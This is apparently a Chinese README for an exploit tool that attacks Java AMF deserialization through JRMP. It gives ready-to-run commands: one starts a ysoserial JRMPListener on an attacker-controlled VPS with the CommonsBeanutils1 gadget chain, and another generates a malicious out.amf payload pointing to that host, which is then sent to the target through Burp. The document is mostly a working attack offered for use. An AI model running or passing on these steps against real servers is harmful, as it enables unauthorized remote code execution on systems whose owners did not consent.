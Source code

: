 # AMF_JRMP
改造一个基于jrmp的AMF反序列化利用工具 

只适用于出网的机器

将ysoserial放到服务器/vps中，先启动一个jrmp，利用链根据实际情况改
```bash
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1234 CommonsBeanutils1 calc
```

然后本地运行这个AMFpoc_JRMP.jar
```bash
java -jar AMFpoc_JRMP.jar 起服务的ip 起服务的端口
```
比如这样
```bash
java -jar AMFpoc_JRMP.jar 114.114.114.114 1234
```
他会生成一个out.amf,使用burp右键选择pasted from file，选这个out.amf发送就可以触发

有关这个反序列化的介绍，请看这个大佬的介绍
https://www.mi1k7ea.com/2019/12/07/Java-AMF3反序列化漏洞/
